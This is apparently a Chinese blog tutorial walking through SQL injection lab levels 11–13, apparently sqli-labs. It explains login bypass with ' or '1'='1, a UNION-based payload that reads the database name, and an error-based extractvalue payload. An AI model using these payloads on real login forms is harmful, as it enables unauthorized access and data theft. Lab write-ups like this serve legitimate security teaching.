 ## tips

从username注入只能填正确的用户名，因为如果这里不用admin用的别的，那么接下来语句就是ture，语句被执行，返回的是空内容；所以username中的内容必须正确

```
select * from users where username='admin' or '1'='1' and password='随便输' 
```

而从密码栏注入就可以随意填写，因为而这一句其实等同于 select * from users where '1'='1' ，这就是直接执行select * from users 无任何条件。

```
select * from users where username='suibiantian' and password='suibiantian' or '1'='1' 
```

## Test 11

利用万能密码

![在这里插入图片描述](https://img-blog.csdnimg.cn/7ee5863719ab44f7a7cb286d0a4d54c9.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

然后下面我们就可以用之前get型的语句来代替那个恒成立的式子来进行注入了,查库：

```
admin'union select 1,database()#
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/9560ff0021e949f8aa33e06a8aecf52a.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

往后的步骤就是更换后面的语句就不一一讲解了。

## Test 12

这个是把闭合条件换成了双引号加一个括号)，其他和11一样

![在这里插入图片描述](https://img-blog.csdnimg.cn/182fc2ebdc984616abcba0a12425d15b.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

查库：

![在这里插入图片描述](https://img-blog.csdnimg.cn/d48a4fc59bb7441186d3b428c35f4529.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

## Test 13

注意一个新函数：**extractvalue**()
语法：extractvalue(目标xml文档，xml路径)
而第二个参数是我们可操作的地方，只要第二个参数格式错误，就会报错，并且会返回我们写入的非法格式内容，而这个非法的内容就是我们想要查询的内容。

首先查找闭合点，发现是单引号加一个括号')

![在这里插入图片描述](https://img-blog.csdnimg.cn/2393b1a103144d2cac60a745ec68b011.png?x-os-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBAVExfX2dob3N0,size_20,color_FFFFFF,t_70,g_se,x_16)

这里我们发现正常登录没有回显，而有错时有错误回显，所以利用extractvalue函数

爆库：

```
admin') and extractvalue(1,concat(0x7E,(select database()),0x7E))#
```
